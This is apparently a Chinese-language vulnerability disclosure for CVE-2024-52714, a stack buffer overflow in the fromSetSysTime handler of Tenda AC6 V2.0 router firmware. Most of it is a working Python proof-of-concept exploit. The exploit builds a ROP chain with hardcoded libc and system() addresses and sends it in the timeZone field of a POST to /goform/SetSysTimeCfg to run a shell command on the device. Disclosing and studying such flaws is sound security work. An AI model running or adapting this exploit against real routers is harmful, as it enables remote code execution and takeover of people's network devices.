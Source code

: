 # tenda AC6V2.0 缓冲区溢出漏洞报告 
## CVE-2024-52714

## 漏洞描述  

在 tenda AC6V2.0 的 `fromSetSysTime` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数timezone可控，满足一定条件后，它的值通过sscanf函数复制给栈上变量timezone_min_buf，造成溢出

<img width="406" alt="{B074EF35-96A2-49EF-879E-4097AD5A7146}" src="https://github.com/user-attachments/assets/ba24ca23-ba20-47e5-ae5f-4566b9939257">




## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_timezone():
	url = f"http://{target_ip}/goform/SetSysTimeCfg" 
	payload = b'aaa:'+b'a'*0xac+rop	
	data = {"timeType": "sync",
		"timeZone": payload
	}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_timezone()

